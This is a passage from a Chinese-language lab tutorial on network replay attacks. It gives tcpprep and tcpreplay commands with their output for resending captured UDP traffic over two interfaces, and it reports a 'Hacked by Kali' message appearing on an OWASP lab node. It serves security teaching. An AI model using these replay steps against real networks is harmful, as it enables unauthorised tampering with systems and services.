 5.	使用tcpprep分离源／目的地址流量，然后使用tcpreplay进行重放攻击：


	

		root@kali:~# tcpprep -a client -i UDP.pcap -o UDP.cache
		（说明：采用自动/client 模式指定分包模式. 自动/client模式将所有没有认出的包都归为 client, 同理自动/server 模式将没有认出的包都归为 server. UDP.pcap是输入文件，UDP.cache是输出文件）
		root@kali:~# tcpreplay -p 10 -c UDP.cache -i eth0 -I eth1 UDP.pcap 
		sending out eth0 eth1
		processing file: UDP.pcap
		Actual: 3 packets (180 bytes) sent in 0.20 seconds.			Rated: 900.0 bps, 0.01 Mbps, 15.00 pps
		Statistics for network device: eth0
		Attempted packets:         0
		Successful packets:        0
		Failed packets:            0
		Retried packets (ENOBUFS): 0
		Retried packets (EAGAIN):  0
		Statistics for network device: eth1
			Attempted packets:         3
			Successful packets:        3
			Failed packets:            0
		Retried packets (ENOBUFS): 0
		Retried packets (EAGAIN):  0

说明:-p 表示指定每秒发送速度 –c –i –I 均是双网卡回放报文必选参数，分别跟输入文件名 主接口 次接口。导入UDP.cache主要用于区分方向，服务器->客户端的数据包通过主接口发送，客户端->服务器的数据包通过次接口发送。而tcpreplay重放的是来自UDP.pcap中的数据包。


6.	可以在OWASP节点，明显得看到多了一条显示信息（Hacked by Kali），表明重放攻击成功

![image](http://momomoxiaoxi.com/img/post/Tcpreplay/6.png)


---

## 6. 参考资料

http://tcpreplay.synfin.net
https://en.wikipedia.org/wiki/Replay_attack
https://cnodejs.org/topic/557c354d16839d2d539362b6
https://github.com/appneta/tcpreplay

